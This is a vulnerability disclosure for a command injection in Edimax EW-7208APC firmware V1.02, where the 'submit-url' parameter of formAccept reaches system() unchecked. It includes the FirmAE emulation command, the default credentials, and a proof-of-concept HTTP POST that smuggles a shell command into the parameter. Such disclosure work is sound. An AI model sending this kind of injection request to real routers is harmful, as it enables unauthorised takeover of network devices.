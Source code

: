 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'submit-url'` parameter in the 'formAccept' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formAccept' is below:
![vulner_code.png](./img/vulner_code.png)
- ​**websGetVar** retrieves POST parameters 'submit-url'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formAccept HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 36
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1  
  
submit-url=echo formAccept>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)